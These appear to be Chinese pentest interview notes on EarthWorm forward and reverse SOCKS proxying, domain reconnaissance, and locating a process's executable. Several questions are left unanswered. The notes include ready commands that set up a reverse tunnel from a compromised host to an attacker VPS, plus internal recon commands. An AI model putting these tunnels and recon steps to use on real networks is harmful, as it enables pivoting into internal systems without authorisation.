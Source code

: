 #### ew的正向代理和反向代理讲一下

ew正向代理

```
正向代理:ew –s ssocksd –l 1080
即在靶机上直接执行正向代理，在挂上全局代理，靶机相当于跳板机
```

ew反向代理

```
vps执行命名：
./ew -s rcsocks -l 1080 -e 8888
攻击者具有独立IP的vps ，执行ew，设置监听本地的1080端口，并将从靶机8888端口转发到本地1080端口

靶机执行命令:
./ew -s rssocks -d vps_ip -e 8888 
公网主机（即vps）添加转接隧道，将 1080 收到的代理请求转交给反连 8888 端口的主机

使用:
访问 vps:1080 可使用rssocks主机提供的socks5代理服务
```

#### 讲一下ssh代理还有frp代理

#### Neo-reGeorg代理是如何做的

#### ew和neoreg的区别

### 内网信息搜集

#### 如何快速定位域控，介绍三种方式

答：net view,net time,

#### 一般域内信息收集你会收集那些信息

答：密码凭据信息，第三方软件信息，域用户的主机信息，域用户的网络架构，操作系统补丁信息

#### 如何快速了解服务器的系统信息

systeminfo详细信息
net start 启动服务
tasklist进程列表
schtasks计划任务

#### 后台有一个进程，你需要找到他的程序执行文件，该怎么找?

已知程序名称：ps -aux | grep NAME 

 已知端口：netstat -anp | grep :port 

 已知PID：ps -aux | grep PID 

  然后通过/proc/PID目录中exe -> xxxx 即可查找到程序的执行位置
